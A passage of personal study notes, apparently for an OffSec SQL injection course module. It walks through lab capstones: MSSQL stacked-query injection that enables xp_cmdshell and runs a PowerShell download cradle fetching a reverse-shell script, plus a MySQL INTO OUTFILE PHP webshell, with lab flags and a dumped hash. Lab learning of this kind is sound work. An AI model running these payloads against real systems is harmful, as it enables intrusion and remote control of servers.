Full Windows box: IIS 10.0 ("Convid"), SMB (445), WinRM (5985/5986, Cloudbase-Init cert), no MSSQL port (1433) exposed directly, so the DB is only reachable through the web app itself.
![[Pasted image 20260804154609.png]]

**Step 2-3: Web recon**
```bash
curl -s http://192.168.170.50/
curl -s http://192.168.170.50/login.aspx | grep -iE "<form|<input|name="
```
ASP.NET WebForms site (`.aspx` pages: `index`, `login`, `protect`, `about`, `doctors`, `news`). `login.aspx` carries the standard WebForms hidden fields (`__VIEWSTATE`, `__VIEWSTATEGENERATOR`, `__EVENTVALIDATION`) alongside the real `UsernameTextBox`/`PasswordTextBox` fields, all of which need to ride along with any POST for the app to accept it.
![[Pasted image 20260804154733.png]]

**Step 4: Confirm injection**

Fetch a fresh page (needed before every submission since the hidden fields are single-use-ish) and submit a `'`:
```bash
curl -s http://192.168.170.50/login.aspx -c /tmp/cookies.txt -o /tmp/login_page.html
VS=$(grep -oP '(?<=__VIEWSTATE" id="__VIEWSTATE" value=")[^"]*' /tmp/login_page.html)
VSG=$(grep -oP '(?<=__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR" value=")[^"]*' /tmp/login_page.html)
EV=$(grep -oP "(?<=__EVENTVALIDATION\" id=\"__EVENTVALIDATION\" value=\")[^\"]*" /tmp/login_page.html)

curl -s -b /tmp/cookies.txt -X POST http://192.168.170.50/login.aspx \
  --data-urlencode "__VIEWSTATE=$VS" --data-urlencode "__VIEWSTATEGENERATOR=$VSG" --data-urlencode "__EVENTVALIDATION=$EV" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$UsernameTextBox=offsec'" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$PasswordTextBox=test" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$LoginButton=Login" -o /tmp/login_result.html
grep -iE "error|exception|syntax" /tmp/login_result.html
```
ASP.NET's custom error pages are off here, so a broken query returns the **full raw `System.Data.SqlClient.SqlException` with stack trace** directly in the page. Confirmed MSSQL backend, and an extremely verbose error channel, at least at first glance.
![[Pasted image 20260804154844.png]]

**Step 5: `OR 1=1` auth bypass fails**
```bash
curl -s -b /tmp/cookies.txt -X POST http://192.168.170.50/login.aspx \
  --data-urlencode "__VIEWSTATE=$VS" --data-urlencode "__VIEWSTATEGENERATOR=$VSG" --data-urlencode "__EVENTVALIDATION=$EV" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$UsernameTextBox=offsec' OR 1=1 -- " \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$PasswordTextBox=test" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$LoginButton=Login" -o /tmp/login_result2.html
```
Still "Invalid credentials", unlike [[10. SQL Injection Attacks#10.2.1. Identifying SQLi via Error-Based Payloads|10.2.1]]'s auth bypass. Points to the password check happening in **application code** after the query returns a row, not inside the SQL `WHERE` clause itself, so bypassing the row match alone doesn't skip the password comparison. Pivoted to going straight for code execution instead of chasing auth bypass further.

**Step 6: Confirm stacked queries work (they do)**
```bash
time curl -s -b /tmp/cookies.txt -X POST http://192.168.170.50/login.aspx \
  --data-urlencode "__VIEWSTATE=$VS" --data-urlencode "__VIEWSTATEGENERATOR=$VSG" --data-urlencode "__EVENTVALIDATION=$EV" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$UsernameTextBox=offsec'; WAITFOR DELAY '0:0:5'-- " \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$PasswordTextBox=test" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$LoginButton=Login" -o /tmp/login_result3.html
```
Took ~5.2 seconds. .NET's `SqlCommand` executes a full `;`-separated batch natively (unlike PHP's `mysqli_query()`, which needs `mysqli_multi_query()` explicitly), so stacked queries are available here.

**Step 7: Error-based read-back turns out to be broken for stacked statements**

Tried leaking `xp_cmdshell 'whoami'` output the same way as [[10. SQL Injection Attacks#Capstone: Exercise VM #3|VM #3]] (capture into a table variable, `CONVERT()` it to force an error). No error came back. Sanity-checked with a guaranteed, unconditional `SELECT 1/0` stacked right after the breakout, still nothing, still just "Invalid credentials." **Conclusion: the app only reads/validates the first statement's result and never advances to later result sets, so errors from any stacked statement after the first never surface**, regardless of whether they're real errors or not.
> 🔍 Full breakdown of why this happens, and the resulting single-statement-vs-stacked distinction: [[SQL Injection (Breakdowns)#Why stacked-query errors silently vanish while the query still executes|Command Breakdowns]]

**Step 8: Even single-statement `AND`-based leaks failed, until switching to `UNION`**

Tried `offsec' AND 1=CONVERT(int, SYSTEM_USER)-- ` (no `;`, so it can't be the stacked-query issue). Still nothing. Reasoning: if no row actually has `username='offsec'`, SQL Server never needs to evaluate the second `AND` condition for any row, since there's nothing to check it against, a per-row runtime error only fires if at least one row reaches that predicate. `UNION SELECT` sidesteps this, since it's a separate result set that always executes regardless of whether the first query matched anything.

Column count confirmed via `ORDER BY` probing (works fine even against zero matching rows, since it's a compile-time/binding-time check against the `SELECT` list shape, not data-dependent):
```bash
curl -s -b /tmp/cookies.txt -X POST http://192.168.170.50/login.aspx \
  --data-urlencode "__VIEWSTATE=$VS" --data-urlencode "__VIEWSTATEGENERATOR=$VSG" --data-urlencode "__EVENTVALIDATION=$EV" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$UsernameTextBox=offsec' ORDER BY 3-- " \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$PasswordTextBox=test" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$LoginButton=Login" -o /tmp/ob3.html
```
1 and 2 silent, 3 errors (`ORDER BY position number 3 is out of range`). **2 columns.**

**Step 9: `UNION`+`CONVERT()` leak still didn't surface, even though it should have**

```bash
curl -s -b /tmp/cookies.txt -X POST http://192.168.170.50/login.aspx \
  --data-urlencode "__VIEWSTATE=$VS" --data-urlencode "__VIEWSTATEGENERATOR=$VSG" --data-urlencode "__EVENTVALIDATION=$EV" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$UsernameTextBox=offsec' UNION SELECT CONVERT(int, SYSTEM_USER),'a2'-- " \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$PasswordTextBox=test" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$LoginButton=Login" -o /tmp/leak1.html
```
Still no error, despite `UNION SELECT` genuinely running unconditionally, and despite this being a single (non-stacked) statement. This app's error-display path turned out less reliable overall than VM #3's, root cause not fully pinned down (possibly the app only reads specific typed columns via a narrow code path that doesn't propagate every conversion failure the same way). Rather than keep chasing it, pivoted to a channel already **definitively proven to work**: stacked queries genuinely execute server-side (the `WAITFOR DELAY` really did take 5 seconds), so a reverse shell doesn't need any read-back at all, just fire it blind and watch a listener.

**Step 10: Blind stacked-query RCE via `xp_cmdshell` + PowerShell download cradle**

Host a PowerShell reverse shell script (same interactive TCPClient pattern as [[09. Common Web Application Attacks#9.3.1. Using Executable Files|9.3.1]]):
```bash
cd /tmp
cat > shell.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient("<YOUR_KALI_IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
EOF
python3 -m http.server 80
nc -lnvp 4444   # in a second terminal
```
> **🛠️ Troubleshooting hit: first request 404'd.** `python3 -m http.server` was started from a different directory than where `shell.ps1` actually lived, same gotcha already flagged in [[09. Common Web Application Attacks#9.2.3. Remote File Inclusion (RFI)|9.2.3]] and [[Web Requests & Delivery|Command Appendix]]: it serves whatever directory it's launched from, `cd` into the right one *immediately* before starting it.

Fire the stacked injection:
```bash
curl -s -b /tmp/cookies.txt -X POST http://192.168.170.50/login.aspx \
  --data-urlencode "__VIEWSTATE=$VS" --data-urlencode "__VIEWSTATEGENERATOR=$VSG" --data-urlencode "__EVENTVALIDATION=$EV" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$UsernameTextBox=offsec'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell -c \"IEX(New-Object Net.WebClient).DownloadString(''http://<YOUR_KALI_IP>/shell.ps1'')\"'-- " \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$PasswordTextBox=test" \
  --data-urlencode "ctl00\$ContentPlaceHolder1\$LoginButton=Login" -o /tmp/rce_attempt.html
```
Web server logged a `200` for `GET /shell.ps1`, listener caught the connection as `nt service\mssql$sqlexpress`.
![[Pasted image 20260804154930.png]]
> 🔍 Full breakdown of the triple-nested quoting (T-SQL → cmd.exe → PowerShell) in that one-liner: [[SQL Injection (Breakdowns)#Triple-nested quoting for xp_cmdshell → cmd.exe → PowerShell download cradle|Command Breakdowns]]
> 🔗 **HackTricks** MSSQL Injection: [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/sql-injection/mssql-injection.md) (covers `sp_configure`/`xp_cmdshell` enabling via stacked queries) · **PayloadsAllTheThings** MSSQL Injection: [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)

**Step 11: Find and read the flag**
```
whoami
dir C:\inetpub\wwwroot -r | findstr -i "flag OS{"
type C:\inetpub\wwwroot\flag.txt
```
![[Pasted image 20260804155004.png]]

**Lab answer:** **`OS{7bd87d8765fe9fab57092823659332a7}`**

> 📋 Generalized copy-pasteable commands for this technique: [[SQL Injection & Databases|Command Appendix]]
> 🧭 Quick lookup: [[SQL Injection & Databases (Decision Tree)|Decision Tree]]

#### Tags: #Lab #Quiz #Module10 #Capstone #MSSQL #ASPNETWebForms #StackedQueries #XpCmdshell

---

### Capstone: HTB Skills Assessment (Registration Bypass Chain)

> 🔧 Technique: from the HTB SQL Injection Fundamentals module, chained end-to-end: parenthesis-closing bypass on a registration invite-code field → incremental-UNION injection in an authenticated chat-search feature → credential dump → web-root disclosure via Nginx config → `INTO OUTFILE` webshell RCE.

**Step 1: Bypass the invitation-code check to register at all.** A bare `'` on the invite-code field 500s, confirming injection; the field wraps input in parentheses, so the working bypass is:
```
') OR 1=1-- -
```

**Step 2: Find the real injection point post-login.** A chat search feature at `index.php?q=search&u=1` takes `u=1'` and 500s; `u=1')-- -` returns 200, confirming the same parenthesis-wrapped shape.

**Step 3: Column count via incremental UNION**, same technique as 10.2.2's alternative method:
```
') UNION SELECT 1,2,3-- -         -- error
') UNION SELECT 1,2,3,4-- -       -- success, 4 columns
```

**Step 4: Identify rendering columns and fingerprint the DB:**
```
') UNION SELECT 1,2,@@version,database()-- -
-- 10.11.11-MariaDB | chattr
```

**Step 5: Enumerate and dump credentials** via `INFORMATION_SCHEMA.TABLES`/`COLUMNS` exactly as in 10.1/10.2, landing an admin `argon2i` hash.

**Step 6: Find the writable web root**, the `Server: nginx` response header plus `LOAD_FILE("/etc/nginx/sites-enabled/default")` discloses the `root` directive directly (`root /var/www/chattr-prod;`). Apache targets would use `/etc/apache2/sites-enabled/000-default.conf`'s `DocumentRoot` the same way.

**Step 7: `INTO OUTFILE` the short webshell, confirm, read the flag:**
```
') UNION SELECT 1,2,'<?=`$_GET[0]`?>',4 INTO OUTFILE '/var/www/chattr-prod/shell.php'-- -
```
```
http://TARGET/shell.php?0=id                 -> uid=33(www-data)
http://TARGET/shell.php?0=cat%20/*.txt        -> flag (filename unknown, wildcard finds it)
```



> 📸 Screenshot: the registration-bypass success page; the UNION result showing the admin argon2i hash; `shell.php?0=id` confirming `www-data` execution

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Q1: dumped admin password hash? | **$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU** |
| Q2: web application root path (from Nginx config)? | **/var/www/chattr-prod** |
| Q3: flag via webshell RCE? | **061b1aeb94dec6bf5d9c27032b3c1d8d** |

#### Tags: #SkillsAssessment #SQLi #UNION #RegistrationBypass #WebShell #LOADFILE #Nginx #Module10

---

## 10.4. Wrapping Up

This module covered identifying and enumerating SQL injection vulnerabilities, then exploiting them three ways: **error-based** (leak data through database error messages), **UNION-based** (bolt a second query onto the original and read its output directly), and **blind** (boolean or time-based, when there's no visible output at all). From there, both MSSQL (`xp_cmdshell`) and MySQL (`INTO OUTFILE` + webshell) can turn a SQLi into full OS command execution, and sqlmap automates the entire chain, discovery through to an interactive shell.

The throughline for the whole module: SQLi is really just another case of "user input reaches a place it shouldn't be trusted," the same root cause behind every vulnerability class in [[09. Common Web Application Attacks|Common Web Application Attacks]], just with a database query as the target instead of a filesystem path or a shell command.

#### Tags: #SQLInjectionSummary #Module10Recap

---

## 🎯 Related Boxes to Practice

Real HTB machines matching SQL injection, verified against actual writeups (not guessed).

- **Monitored** (HTB, Linux, Medium): TJ_Null-confirmed (on the NetSecFocus Trophy Room OSCP-like list).
- **[Cat](https://0xdf.gitlab.io/2025/07/05/htb-cat.html)** (HTB, Linux, Medium): stored XSS chained into SQLi, then RCE. Also relevant to [[08. Introduction to Web Application Attacks#8.4. Cross-Site Scripting|Module 8's XSS section]], good one for tying both modules together in practice.
- **[Union](https://0xdf.gitlab.io/2021/11/22/htb-union.html)** (HTB, Linux, Medium): union-based SQLi used for a file read, directly matches [[10. SQL Injection Attacks#10.2.2. UNION-Based Payloads|10.2.2]]'s technique.
- **CozyHosting** (HTB, Linux, Easy): TJ_Null-confirmed. Postgres credential extraction via SQLi, plus a command injection angle, also worth revisiting from [[09. Common Web Application Attacks#9.4. Command Injection|Module 9]].
- **[Phoenix](https://0xdf.gitlab.io/2022/06/25/htb-phoenix.html)** (HTB, Linux): WordPress plugin blind SQLi used to extract credentials, then a second plugin abused for webshell upload, directly matches the [[10. SQL Injection Attacks#🏆 Capstone Labs|Capstone VM #1]] pattern (WP plugin SQLi → creds → admin-to-RCE). TJ_Null-list inclusion not independently confirmed at time of writing, note this rather than presenting it as verified.
- **[RedCross](https://0xdf.gitlab.io/2019/04/13/htb-redcross.html)** (HTB, Linux, Medium): SQLi + XSS + PostgreSQL, matches [[10. SQL Injection Attacks#Capstone: Exercise VM #3|Capstone VM #3]]'s DBMS and general theme (also ties into [[08. Introduction to Web Application Attacks#8.4. Cross-Site Scripting|Module 8's XSS section]]). Verified real/medium via 0xdf plus three other independent writeups (0xRick, snowscan.io, s1gh.sh). Note: its actual PostgreSQL privesc path (per those writeups) uses the DB to manipulate an SSH-jail user table, not specifically the `COPY FROM PROGRAM` superuser RCE chain VM #3 used, same DBMS and injection theme, not a guaranteed technique-for-technique match, worth flagging rather than overstating.
- **VM #4's technique** (MSSQL SQLi through an ASP.NET WebForms login form → blind stacked-query `xp_cmdshell` RCE): searched for a matching real HTB/Vulnhub box and didn't find a confirmed one, HTB's Querier (which surfaces in MSSQL/xp_cmdshell searches) actually gets its foothold via NTLM capture from a malicious Excel macro, not web-based SQLi, so it's not a real match despite surface-level MSSQL overlap. Leaving this open rather than forcing an unverified box in.

#### Tags: #RelatedBoxes #HTBPractice

---

## **Outstanding Sections**
- [x] **10.1 SQL Theory and Databases**: done, all 3 VMs complete (MySQL VM #1, MSSQL VM #2, MySQL VM #3); 10.1.3 HTB supplementary merged in (DESCRIBE/LIKE/COUNT/operator precedence)
- [x] **10.2 Manual SQL Exploitation**: done, all 3 questions answered (error-based, UNION-based, blind, all on the same VM); HTB supplementary merged in (parenthesis-closing bypass, incremental UNION method, cross-database dumps)
- [x] **10.3 Manual and Automated Code Execution**: done, all 3 VMs complete (MSSQL xp_cmdshell, MySQL manual webshell, MySQL sqlmap dump); 10.3.1 HTB supplementary merged in (privilege-check trio, short webshell variant); 10.3.3 new section, full SQLMap Essentials HTB supplementary merged in (technique letters, injection markers, tuning, WAF bypass stack, file-read/os-shell, skills assessment)
- [x] **🏆 Capstone Labs**: all 4 Offsec VMs done (VM #1: `OS{8efde9c5b36a457f6269bc453f1f1f3d}`, WordPress plugin SQLi → admin-to-RCE; VM #2: `OS{e587b0099eca95c0f365a725c2129e6a}`, manual error-based SQLi + `LOAD_FILE`; VM #3: `OS{6f00e38a78de748ad4b3abc3471bc4af}`, PostgreSQL `CAST()` error-based extraction → superuser `COPY FROM PROGRAM` RCE; VM #4: `OS{7bd87d8765fe9fab57092823659332a7}`, MSSQL/ASP.NET WebForms, blind stacked-query `xp_cmdshell` RCE), plus the HTB Skills Assessment registration-bypass chain merged in as a 5th capstone
- [x] **10.4 Wrapping Up**: done
